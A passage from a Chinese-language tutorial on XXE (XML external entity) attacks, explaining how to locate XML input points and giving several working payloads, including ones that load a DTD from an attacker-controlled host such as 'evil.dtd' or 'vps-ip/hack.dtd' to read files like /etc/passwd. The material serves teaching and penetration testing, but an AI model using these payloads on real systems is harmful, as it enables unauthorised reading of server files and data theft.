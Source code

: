 XML 文件内容：

*注意：在DTD内部使用的参数实体，使用`%实体`*

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY %d SYSTEM "http://mark4z5.com/evil.dtd">
%d;
]>
<c>&b;</c>
```

evil.dtd 文件内容：

```dtd
<!ENTITY b SYSTEM "file:///etc/passwd/">
```

### 寻找 XML 输入点

**甄别那些接受XML作为输入内容的端点。** 

但是有时候，这些端点可能并不是那么明显（比如，一些仅使用JSON去访问服务的客户端）。在这种情况下，渗透测试人员就必须<u>尝试不同的测试方式</u>，比如修改HTTP的请求方法，修改Content-Type头部字段为 `Content-Type：text/xml`等等方法，然后看看应用程序的响应，<u>看看程序是否解析了发送的内容</u>，如果解析了，那么则可能有XXE攻击漏洞。

例如：

判断wsdl（web服务描述语言），或者一些常见的采用xml的java服务配置文件（spring，struts2）。不过<u>现实中存在的大多数XXE漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录</u>，这里简单来说就是攻击者必须具有一台具有公网ip的主机。

例如：

从PHP代码层面，存在 `Content-Type：text/xml` , 说明 post 的数据包含 XML 格式，如：可以在请求头中添加 `Content-Type:text/xml` 或 `Content-type:application/xml` ，然后构造payload测试是否存在XXE攻击漏洞。

## XXE 利用方式

### 1. 文件读取有回显

**直接读靶机文件**

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

**通过恶意引入外部参数实体，读靶机文件**

```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://vps-ip/hack.dtd">
    %file;
]>
<test>&hhh;</test>
```
